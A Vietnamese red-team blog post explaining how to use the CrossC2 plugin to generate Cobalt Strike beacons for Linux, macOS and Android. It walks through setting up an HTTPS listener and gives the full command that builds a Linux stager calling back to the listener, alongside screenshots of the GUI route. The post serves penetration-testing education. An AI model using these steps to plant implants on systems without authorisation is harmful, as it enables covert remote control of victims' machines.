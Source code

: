+++
title = "CrossC2 – Generate CobaltStrike’s Cross-Platform Payload"
description = ""
type = ["posts","post"]
tags = [
    "red-team",
    "infosec",
]
date = "2021-11-03"
categories = [
    "red-team",
    "infosec",
]
series = ["red-team"]
[ author ]
  name = "Quac Tran"
+++
* [Introduce](#introduce)
* [Config](#config)
    * [Listener](#listener)
    * [Generate beacon](#generate-beacon)
        * [Gen via command](#gen-via-command)
        * [Gen via install plugin](#gen-via-install-plugin)
* [Result](#result)
* [References](#references)
## Introduce
- "Cobalt Strike is threat emulation software. Execute targeted attacks against modern enterprises with one of the most powerful network attack kits available to penetration testers. This is not compliance testing."

- Nếu như bạn từng sử dụng Cobalt Strike chắc cũng sẽ biết Cobalt Strike không hỗ trợ điều khiển từ xa Linux, MacOS, Android... theo mặc định.

- CrossC2 là một plugin mở rộng hỗ trợ Cobalt Strike điều khiển từ xa các máy chủ Linux, MacOS, Android....Nó hỗ trợ các thư viện động do người dùng chỉ định, tải, thực thi các thư viện này.

- Bạn có thể xem chi tiết về dự án tại đây: https://github.com/gloxec/CrossC2
## Config
### Listener
- Đầu tiên chúng ta sẽ tạo một listener để lắng nghe kết nối từ xa

- Cobalt Strike -> Listener

- ![https://raw.githubusercontent.com/tranquac/Blog_Image/master/cross-platform-cobalt-strike/listener.PNG](https://raw.githubusercontent.com/tranquac/Blog_Image/master/cross-platform-cobalt-strike/listener.PNG)

- Một điều đáng chú ý ở đây là CrossC2 hiện tại chỉ hỗ trợ Beacon Https. Vậy ta sẽ tạo Beacon HTTPS. Đối với các Beacon khác như HTTP sẽ không thể nhận kết nối.
### Generate beacon
- Ở đây sẽ có 2 phương phương pháp. Chúng ta có thể gen trực tiếp từ binaries mà tác giả đã compile bằng command hoặc install vào Cobalt Strike như một plugin phụ trợ để gen theo dạng Gui. Mình sẽ làm theo cả 2 cách:
#### Gen via command
- Đầu tiên chúng ta sẽ tải binary về tại đây: https://github.com/gloxec/CrossC2/releases

- Cách sử dụng tác giả cũng đã nói rất chi tiết:

- ![https://raw.githubusercontent.com/tranquac/Blog_Image/master/cross-platform-cobalt-strike/binary.PNG](https://raw.githubusercontent.com/tranquac/Blog_Image/master/cross-platform-cobalt-strike/binary.PNG)

- Vì phiên bản Cobalt Strike đang sử dụng là 4.4 nên để gen payload tôi sử dụng lệnh sau:

- `./genCrossC2.Linux IP_Listener 4444 .cobaltstrike.beacon_keys null Linux x64 ./beacon_linux_test stager 4.4`

- cobaltstrike.beacon_keys: được tạo trong cùng thư mục root của Cobalt Strike server khi tạo Listener từ đầu

- Sau khi chạy lệnh thành công tôi nhận được beacon mới trong thư mục hiện tại:

- ![https://raw.githubusercontent.com/tranquac/Blog_Image/master/cross-platform-cobalt-strike/beacon.PNG](https://raw.githubusercontent.com/tranquac/Blog_Image/master/cross-platform-cobalt-strike/beacon.PNG)
#### Gen via install plugin
- Đầu tiên chúng ta sẽ tải về:

- ![https://raw.githubusercontent.com/tranquac/Blog_Image/master/cross-platform-cobalt-strike/save.PNG](https://raw.githubusercontent.com/tranquac/Blog_Image/master/cross-platform-cobalt-strike/save.PNG)

- Và đừng quên tải xuống: https://github.com/gloxec/CrossC2/blob/cs4.1/CrossC2Kit/CrossC2Kit_Loader.cna (including memory loading and other functions)

- Trong CrossC2.cna chúng ta sẽ chỉnh sửa lại path đến binary gen payload và cobaltstrike.beacon_keys cho phù hợp:

- ![https://raw.githubusercontent.com/tranquac/Blog_Image/master/cross-platform-cobalt-strike/edit.PNG](https://raw.githubusercontent.com/tranquac/Blog_Image/master/cross-platform-cobalt-strike/edit.PNG)

- Sau đó chúng ta sẽ tải plugin vào Cobalt Strike: Cobalt Strike -> Script Manager -> Load. Sau khi load xong chúng ta sẽ có thêm chức năng CrossC2 trên thanh Menu. Lúc này ta có thể sử dụng để gen payload:

- ![https://raw.githubusercontent.com/tranquac/Blog_Image/master/cross-platform-cobalt-strike/menu.PNG](https://raw.githubusercontent.com/tranquac/Blog_Image/master/cross-platform-cobalt-strike/menu.PNG)

- ![https://raw.githubusercontent.com/tranquac/Blog_Image/master/cross-platform-cobalt-strike/gen.PNG](https://raw.githubusercontent.com/tranquac/Blog_Image/master/cross-platform-cobalt-strike/gen.PNG)
## Result
- Sau khi download và thực thi payload tạo dựa trên command hay GUI trên máy chủ Linux:

- ![https://raw.githubusercontent.com/tranquac/Blog_Image/master/cross-platform-cobalt-strike/run.PNG](https://raw.githubusercontent.com/tranquac/Blog_Image/master/cross-platform-cobalt-strike/run.PNG)

- Chúng ta có thể làm tương tự để nhận kết nối tự MacOS, Android...
## References

-[https://gloxec.github.io/CrossC2/zh_cn/usage/genCross.html](https://gloxec.github.io/CrossC2/zh_cn/usage/genCross.html)

